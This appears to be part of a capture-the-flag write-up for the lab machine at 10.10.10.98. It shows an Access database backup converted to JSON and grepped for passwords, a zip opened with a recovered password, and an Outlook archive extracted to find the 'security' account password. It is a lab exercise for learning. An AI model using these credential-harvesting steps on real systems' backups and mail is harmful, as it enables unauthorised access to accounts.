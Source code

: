 #### 2.1. Convert MS Access backup to JSON
```
# java -jar AccessConverter.jar --access-file "10.10.10.98/Backups/backup.mdb" --task convert-json
Result: Success
Output file: /tmp/10.10.10.98/Backups/backup.json
Log file: /tmp/10.10.10.98/Backups/backup.log.json
```
Project: `https://github.com/clytras/AccessConverter`


#### 2.2. Looking for credentials
```
# cat /tmp/LOL/10.10.10.98/Backups/backup.json | jq . | grep password -n2
949-        "id": 25,
950-        "username": "admin",
951:        "password": "admin",
952-        "Status": 1,
953-        "last_login": "2018-08-23 21:11:46",
--
958-        "id": 27,
959-        "username": "engineer",
960:        "password": "access4u@security",
961-        "Status": 1,
962-        "last_login": "2018-08-23 21:13:35",
--
967-        "id": 28,
968-        "username": "backup_admin",
969:        "password": "admin",
970-        "Status": 1,
971-        "last_login": "2018-08-23 21:14:01",
```


#### 2.3. Decompressing AC zip
```
# 7z x -paccess4u@security "Access Control.zip"
# file Access\ Control.pst
Access Control.pst: Microsoft Outlook email folder (>=2003)
# mv Access\ Control.pst AC.pst
# mkdir outlook
# readpst -o outlook -D -j 4 -r -tea -u -w -m AC.pst
```
Note: `readpst` is from `pst-utils` package


#### 2.4. Reading the email
```
# grep -A1 password outlook/Access\ Control/2.eml | head -n1
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
```
